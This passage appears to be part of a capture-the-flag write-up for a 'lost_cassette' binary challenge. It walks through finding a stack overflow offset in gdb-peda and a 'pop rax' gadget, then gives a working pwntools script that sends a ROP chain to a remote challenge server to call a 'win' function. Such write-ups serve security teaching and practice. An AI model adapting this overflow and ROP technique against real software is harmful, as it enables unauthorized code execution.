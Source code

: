 First step.. Finding the offset for the buffer. We can do it dynamically using gdb-peda. Breakpoint on 0x00000000048BEB8 (where the call for `bufio__ptr_Reader_Read` starts), `pattc 1000` and give it as input. `Continue` and then `patts` to see the offset (distance from old RBP) where our program received Segfault. 

![Lost-casette-find-offset](assets/images/image13.png)

To make our ROP chain, we need a gadget for RAX register to overwrite the first parameter for the ‘win’ function, before we call it. I used ROPgadget tool for that.

![Lost-casette-rop-gadget-rax](assets/images/image17.png)

After we complete our ROP chain, getting the flag is only a matter of seconds. This is a script to automate this process:

``` python
from pwn import *
"""
io = gdb.debug("./lost_cassette", '''
b * 0x00000000048BEB8
c
''')
"""
#io = process('./lost_cassette')
io = remote('vmx.cs.pub.ro',31400)

#    gadget for pop rax; ret;
pop_rax_ret = 0x000000000040c8c4
win_fc = 0x00000000048BD00

#    constructing the payload
payload = b''

# RBP is at 32
# RBP + 8 = 32 + 8 = 40 (ret address on x86_64)
offset = 40

payload += offset * b'A'
payload += p64(pop_rax_ret)
payload += p64(0x539)
payload += p64(win_fc)

io.recvline()
io.send(payload)
io.interactive()

```
***